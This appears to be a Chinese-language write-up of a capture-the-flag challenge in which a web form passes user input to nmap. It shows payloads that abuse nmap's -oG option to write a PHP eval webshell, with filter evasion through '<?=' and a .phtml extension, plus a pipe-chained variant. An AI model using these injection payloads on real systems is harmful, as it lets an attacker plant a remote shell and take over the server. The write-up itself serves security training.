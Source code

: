 # [网鼎杯 2020 朱雀组]Nmap

## 知识点

`nmap写入shell`

## 解题

网页首页为

![](./img/[网鼎杯 2020 朱雀组]Nmap-1.png)

要我们输入`host`或者`ip`，尝试输入一个`127.0.0.1`

![](./img/[网鼎杯 2020 朱雀组]Nmap-2.png)

有点类似[[BUUCTF 2018\]Online Tool]([BUUCTF 2018]Online Tool.md)，继续尝试`-oG`输出为`webshell`

```
<?php eval($_POST[1]);?> -oG 1.php
```

发现被过滤，逐段尝试时发现`php`这个词会被过滤,`<?php`可以修改为`<?=`,后面的`.php`修改为`1.phtml`

```
' <?= eval($_POST[1]);?> -oG 1.phtml '
```

如果需要为了保证结果正常，我们可以使用管道符连接(不正常也可以连接`shell`)

```
127.0.0.1 | ' <?= eval($_POST[1]);?> -oG 1.phtml '
```

> 最后单引号前需要多一个空格，否则会报错